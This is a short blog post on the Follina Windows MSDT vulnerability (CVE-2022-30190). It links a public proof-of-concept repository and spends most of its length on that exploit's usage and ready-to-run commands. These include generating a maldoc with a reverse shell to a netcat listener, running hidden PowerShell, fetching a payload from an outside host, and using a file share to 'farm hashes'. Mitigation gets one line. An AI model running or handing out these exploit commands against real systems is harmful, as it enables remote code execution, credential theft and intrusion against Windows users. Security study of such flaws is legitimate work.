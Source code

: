 ```yaml
---
title: "Follina Vulnerability"
date: 2022-08-20T08:06:25+06:00
description: New Vulnerability Exploited in the Wild
menu:
  sidebar:
    name: Follina
    identifier: follina-vulneraility
    parent: vulnerabilities
    weight: 30
author:
  name: Vincent M
  image: /images/author/sila.png
tags: ["Basic", "InfoSec"]
categories: ["InfoSec"]
---
```

### CVE-2022-30190 Microsoft MSDT Vulnerability

A new vulnerability has been discovered in Windows that is critical and can be exploited by attackers.

The vulnerability is called “Follina”, and it affects all versions of Windows from Vista to Windows 10.

This vulnerability is known to have been exploited in the wild, but Microsoft has already released a patch for this vulnerability.

I will be going into an in depth how to guide on how to Exploit the Flaw in my next post to showcase how easy it is for attackers out there.

I will also provide measures of mitigating it with the simplest being updating your windows OS as the vulnerability has been patched

DISCLAIMER: All Information covered in my posts are for Educational purposes ONLY.

### POC

Proof of concept code has been hosted on github. Clone the repo below

>https://github.com/JohnHammond/msdt-follina.git

This POC attacks MSDT using a Microsoft Word doc as a delivery mechanism to stage a payload. In this case the payload is calc

```
 USAGE
 usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

 options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```
Running the following command generates a word document with reverse shell to a nectat listener on port 9001

> python3 follina.py -r 9001

Different options can be passed to the code for a number of scenario attacks
```bash

Execute a local binary
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe

On linux you may have to escape backslashes
python .\follina.py -t rtf -m binary -b \\windows\\system32\\calc.exe

Execute a binary from a file share (can be used to farm hashes 👀)
python .\follina.py -t docx -m binary -b \\localhost\c$\windows\system32\calc.exe

Execute an arbitrary powershell command
python .\follina.py -t rtf -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

Run the web server on the default interface (all interfaces, 0.0.0.0), but tell the malicious document to retrieve it at http://1.2.3.4/exploit.html
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe -u 1.2.3.4

Only run the webserver on localhost, on port 8080 instead of 80
python .\follina.py -t rtf -m binary -b \windows\system32\calc.exe -H 127.0.0.1 -P 8080
```
